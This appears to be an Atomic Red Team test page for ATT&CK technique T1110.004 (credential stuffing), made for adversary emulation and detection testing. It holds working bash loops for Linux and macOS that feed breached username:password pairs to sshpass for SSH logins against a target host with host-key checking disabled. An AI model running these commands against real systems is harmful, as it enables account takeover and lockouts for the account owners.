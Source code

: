 # T1110.004 - Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux

auto_generated_guid: 4f08197a-2a8a-472d-9589-cd2895ef22ad

Using username,password combination from a password dump to login over SSH.
**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS

auto_generated_guid: d546a3d9-0be5-40c7-ad82-5a7d79e1b66b

Using username,password combination from a password dump to login over SSH.
**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
